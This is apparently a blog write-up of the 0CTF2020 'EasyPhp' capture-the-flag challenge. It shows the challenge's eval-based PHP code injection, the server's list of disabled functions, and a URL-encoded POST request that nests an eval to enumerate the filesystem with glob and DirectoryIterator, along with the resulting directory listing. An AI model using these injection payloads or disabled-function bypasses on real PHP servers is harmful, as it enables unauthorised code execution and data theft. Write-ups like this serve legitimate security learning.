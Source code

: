 ```yaml
---
layout: post
author: pwnk1dd13
---
```


* * *
assets/php.html

Recently, I got opportunity to participate in **0CTF2020 Quals**. It was really a good CTF focused on Intermediate to Advanced participants. I was only able to solve only one PHP challenge during CTF named `EasyPhp`.

## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the chall, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
    ?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/php.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Figure out things, we can exploit : 

* PHP-FPM
* Bypass open_basedir()
* FFI
* glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and intended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first glob + DirectoryIerator to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool, So ,we find our targets `flag.h` and `flag,so`. Now, to exploit further I used evil ``FFI`` which was enabled on server as per phpinfo(). 

* * * 